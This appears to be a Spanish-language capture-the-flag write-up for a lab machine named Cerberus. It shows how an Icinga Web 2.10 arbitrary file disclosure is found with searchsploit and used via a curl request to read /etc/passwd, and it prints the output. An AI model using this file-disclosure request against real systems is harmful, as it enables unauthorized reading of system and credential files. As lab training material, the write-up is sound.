 - Al entrar a la web principal, nos redirige a la dirección "icinga.cerberus.local" así que agregamos tanto el dominio como el subdominio al "/etc/hosts".

- Al cargar correctamente la web, vemos que se trata de "Icinga Web 2" y nos muestra una página de login, intentamos con credenciales por defecto pero no funciona.

- Buscamos con searchsploit algo relacionado con "Icinga Web 2" y nos arroja lo siguiente:

 ```js
 $searchsploit icinga web 2

Icinga Web 2.10 - Arbitrary File Disclosure                                                                                                          | php/webapps/51329.py
```

- Como vemos hay un "Arbitrary File Disclosure" en esta web, leemos la script en python para saber qué es lo que hace por detrás y nos damos cuenta que utilizando la siguiente URL podemos leer archivos locales del sistemas en el que está ejecutándose icinga:

```js
http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/{Archivo local del sistema}
```

- Probamos desde la linea de comandos:

```bash
curl "http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
matthew:x:1000:1000:matthew:/home/matthew:/bin/bash
ntp:x:108:113::/nonexistent:/usr/sbin/nologin
sssd:x:109:115:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
nagios:x:110:118::/var/lib/nagios:/usr/sbin/nologin
redis:x:111:119::/var/lib/redis:/usr/sbin/nologin
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
icingadb:x:999:999::/etc/icingadb:/sbin/nologin
```
